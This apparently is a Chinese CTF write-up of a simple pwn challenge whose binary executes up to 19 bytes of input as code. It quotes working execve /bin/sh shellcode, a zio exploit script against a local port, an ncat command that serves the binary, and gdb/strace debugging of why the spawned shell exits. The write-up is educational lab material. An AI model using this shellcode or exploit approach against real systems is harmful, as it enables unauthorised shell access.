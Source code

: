 ```yaml
---
category: CTF
title: Pwn Challenge 0
---
```


## Pwn Challenge 0

> 遇到一个简单的Pwn，记录一下，有一些有意思的问题也放在这里。

### Pwn汇编代码

这个程序很简单，Binary在[这里]({{ site.url }}/resources/Binary/2017-05-06-pwn_1)，直接把它的反汇编贴在下面：

```
.text:0804847D                 push    ebp
.text:0804847E                 mov     ebp, esp
.text:08048480                 and     esp, 0FFFFFFF0h
.text:08048483                 sub     esp, 30h
.text:08048486                 mov     dword ptr [esp+8], 14h
.text:0804848E                 lea     eax, [esp+13h]
.text:08048492                 mov     [esp+4], eax    ; buf
.text:08048496                 mov     dword ptr [esp], 0 ; fd
.text:0804849D                 call    _read
.text:080484A2                 mov     byte ptr [esp+26h], 0
.text:080484A7                 lea     eax, [esp+13h]
.text:080484AB                 mov     [esp], eax      ; s
.text:080484AE                 call    _strlen
.text:080484B3                 mov     [esp+4], eax
.text:080484B7                 mov     dword ptr [esp], offset format ; "%d welcome\n"
.text:080484BE                 call    _printf
.text:080484C3                 lea     eax, [esp+13h]
.text:080484C7                 mov     [esp+2Ch], eax
.text:080484CB                 mov     eax, [esp+2Ch]
.text:080484CF                 call    eax
.text:080484D1                 leave
.text:080484D2                 retn
.text:080484D2 main            endp
```

### 分析

这个题的设定很刻意，现实中恐怕见不到这么明显的漏洞了。大概说一下，就是我们输入的内容会被当做指令执行，然而我们最多只能输入19个字节。输入的东西就直接是shellcode，也不用劫持控制流了（也劫持不了，19个字节不够覆盖到返回地址）。现在就考虑找一段shellcode。

[Exploit-db](https://www.exploit-db.com/exploits/41757/)在这时就显得非常有用了。可以直接找指定长度的shellcode。我找了一个19字节的：

```
; Shellcode : 
char shellcode[] = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
;================================================================================
; Python : 
        shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
;================================================================================
; Assembly language code : 
global _start
        _start:
                push 0bH
                pop eax
                cdq
                push edx
                push "//sh"
                push "/bin"
                mov ebx, esp
                int 80H
;================================================================================
```

然后用zio写一个Exp：

{% highlight python %}
from zio import *

IP = "127.0.0.1"
port = 10000

shellcode = '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\n'
conn = zio((IP, port))
#conn = zio("./pwn_1")
conn.write(shellcode)
conn.interact()
{% endhighlight %}

用ncat把漏洞程序挂上：

```
ncat -l 10000 -e ./pwn_1
```

### 问题

**一 IDA Pro反编译出错**

IDA Pro在遇到这种`call eax`指令时会出错。报

```
Decompilation failure:
80484CF: call analysis failed
```

想想也能想得通，相当于指令是运行时才确定的，它当然不能被静态分析了。

**二 打开的shell直接退出**

这个问题发生在手动输入shellcode的时候。如下：

```
python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80')" | ./pwn_1
```

这样直接就退出了。为了查看细节，我先

```
python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80')" > shellcode
```

然后在gdb中

```
r < shellcode
```

单步执行到`int 0x80`后，发现gdb提示

```
process 26793 is executing new program: /bin/dash
```

说明shell成功打开了呀。

我们再用strace追一下：

```
strace ./pwn_1 < shellcode
```

我们看到

```
execve("/bin//sh", [0], [/* 0 vars */]) = 0
```

然而，execve正常执行成功时是不会返回的。这里为什么返回了呢？上面用zio写的脚本在interact()后成功连接上了打开的shell，没有直接退出呀。

在[网上的一篇文章](http://www.purpleroc.com/md/2016-02-25@Thinking-About-Level2.html)的提示下，我gdb不设断点，直接`r < shellcode`可以看到出错提示：

```
[New process 28700]
/bin/dash: not found
[Inferior 2 (process 28700) exited with code 0177]
```

这个出错码0177和上面提到的文章里是一样的。情况很类似，不同的是我是通过`int 0x80`来调用execve，他是通过`system()`来调用。

来看一下在即将执行`int 0x80`时寄存器和栈的情况：

```
EAX: 0xb ('\x0b')
EBX: 0xbffff660 ("/bin//sh")
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xbffff6a8 --> 0x0 
ESP: 0xbffff660 ("/bin//sh")

gdb-peda$ x/10x $esp
0xbffff660:     0x6e69622f      0x68732f2f      0x00000000      
```

感觉没问题呀，shellcode也是有效的。这是为什么呢？

后来我们进行了一个测试，编写一个简单地`/bin/zz`，功能是打印`123`，然后把 shellcode 改为运行这个程序，结果成功运行并打印。但是 shell 却一直起不来。

因为用`zio`能够成功，我们找来`zio`的源码看一下：

首先是`zio.write()`：

{% highlight python %}
def write(self, s):
    if not s: return 0
    if self.mode() == SOCKET:
        if self.print_write: stdout(self._print_write(s))
        self.sock.sendall(s)
    return len(s)
{% endhighlight %}

然后是`zio.interact()`：

{% highlight python %}
if self.mode() == SOCKET: # socket
    while self.isalive():
        try:
            r, w, e = self.__select([self.rfd, pty.STDIN_FILENO], [], [])
        except KeyboardInterrupt:
            break
        if self.rfd in r:
            try:
                data = None
                data = self._read(1024)
                if data:
                    if output_filter: data = output_filter(data)
                    stdout(raw_rw and data or self._print_read(data))
                else:       # EOF
                    self.flag_eof = True
                    break
            except EOF:
                self.flag_eof = True
                break
        if pty.STDIN_FILENO in r:
            try:
                data = None
                data = os.read(pty.STDIN_FILENO, 1024)
            except OSError as e:
                # the subprocess may have closed before we get to reading it
                if e.errno != errno.EIO:
                    raise
            if data is not None:
                if input_filter: data = input_filter(data)
                i = input_filter and -1 or data.rfind(escape_character)
                if i != -1: data = data[:i]
                try:
                    while data != b'' and self.isalive():
                        n = self._write(data)
                        data = data[n:]
                    if i != -1:
                        break
                except:         # write error, may be socket.error, Broken pipe
                    break
    return
{% endhighlight%}

上面就是一个标准的 select 模型，如果 socket 可读，就读出并打印到标准输出；如果标准输入可读，就读取标准输入，并发送到 socket。

看来并没有特别之处。不过`zio`类的构造函数倒是很长，改日继续分析吧。

### 附录

**验证shellcode是否有效**

将从Exploit-db上拿到的shellcode汇编代码保存为`shell.asm`，

```
nasm -f elf shell.asm
ld -o shell shell.o
```

执行一下，看看能否打开shell。